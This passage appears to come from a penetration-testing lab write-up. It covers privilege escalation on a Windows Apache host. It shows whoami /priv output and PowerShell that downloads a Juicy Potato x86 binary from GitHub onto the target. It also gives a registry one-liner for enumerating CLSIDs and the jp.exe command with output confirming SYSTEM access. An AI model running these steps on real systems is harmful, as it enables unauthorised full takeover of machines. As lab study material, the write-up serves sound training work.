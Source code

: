 
## Privilege Escalation

- Checking for user privilege shows **SeImpersonatePrivilege** is enabled.

```bash
C:\wamp\bin\apache\Apache2.2.21>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```

**Notes**: 
SeImpersonatePrivilege — Enabled. 
This is the exact privilege required to perform several local privilege escalation (LPE) attacks like: Juicy Potato, Rogue Potato, PrintSpoofer, Potato.Ng, Sweet Potato, GodPotato, TokenKidnap (NTLM relay-style privilege escalation). 
These tools abuse Windows COM or named pipe impersonation mechanisms to escalate from low-privileged user to SYSTEM.

- Tried to the juice potato exploit. But, **failed** because the system is x86.
- So, downloaded x86 version of juice potato on the server.

```powershell
(New-Object System.Net.WebClient).DownloadFile("https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe", "jp.exe")
```
- Extracted CLSID to use in Juicy Potato Exploit using command below

```powershell
for /f "tokens=*" %A in ('reg query HKCR\CLSID 2^>nul') do @for /f "tokens=3" %B in ('reg query "%A" /v AppID 2^>nul ^| find /i "AppID"') do @for /f "tokens=3" %C in ('reg query HKCR\AppID\%B /v LocalService 2^>nul ^| find /i "LocalService"') do @echo CLSID: %A ^| AppID: %B ^| LocalService: %C
```

- Verified exploit

```bash
C:\Users\apache\Desktop>jp.exe -l 1337 -p "C:\Windows\System32\cmd.exe" -a "/k whoami > C:\Users\Public\whoami.txt" -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
jp.exe -l 1337 -p "C:\Windows\System32\cmd.exe" -a "/k whoami > C:\Users\Public\whoami.txt" -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
Testing {69AD4AEE-51BE-439b-A92C-86AE490E8B30} 1337
....
[+] authresult 0
{69AD4AEE-51BE-439b-A92C-86AE490E8B30};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Users\apache\Desktop>type C:\Users\Public\whoami.txt
type C:\Users\Public\whoami.txt
nt authority\system

```

---